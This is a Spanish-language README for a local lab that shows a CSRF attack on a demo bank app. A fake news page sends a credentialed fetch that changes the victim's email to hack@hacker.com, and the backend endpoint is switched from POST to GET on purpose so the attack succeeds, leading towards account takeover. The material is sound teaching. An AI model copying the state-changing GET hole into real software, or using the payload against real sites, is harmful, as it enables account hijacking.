 CSRF(Cross-Site Request Forgery) es un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

Vamos a tener tres partes funcionando:

- El Front End de un banco.
- El backend de un banco.
- El front end de un sitio malicioso que recopila información.



# Manos a la obra

> ## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

Abrimos el navegador y accedemos a la app de frontend en la ruta http://localhost:1234

<img src="./assets/01.png" style="zoom:67%;" />

> ## Pasos

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```
email: user@email.com
password: test
```

Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

<img src="./assets/02.png" style="zoom:67%;" />

Abrimos ahora nuestro navegador en la ruta http://localhost:1235, aquí vamos a simular que nos han enviado un correo con un enlace malicioso.
Hemos creado un enlace que nos redirige a una fake web de noticias que nos simula el ataque CSRF.

En este caso vamos a intentar hacer un cross posting al dominio del banco
desde nuestra aplicación maliciosa arrastrando las cookies del bnaco.

Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se realizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF con post
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitido y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

Esto pasa porque hacemos un post.

<img src="./assets/03.png" style="zoom:67%;" />

¿Y si cambiamos por un GET? Esto se consideraría una mala práctica a la hora
de implementar tu API Rest, pero es muy común encontrarlo en API's que no
están bien implementadas.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupilchuli/src/index.html_

```diff
<script>
-       Esto es CSRF con post
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+       Esto es CSRF con get
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+                    email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.text())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
    </script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```

Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.

<img src="./assets/04.png" style="zoom:67%;" />

Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.
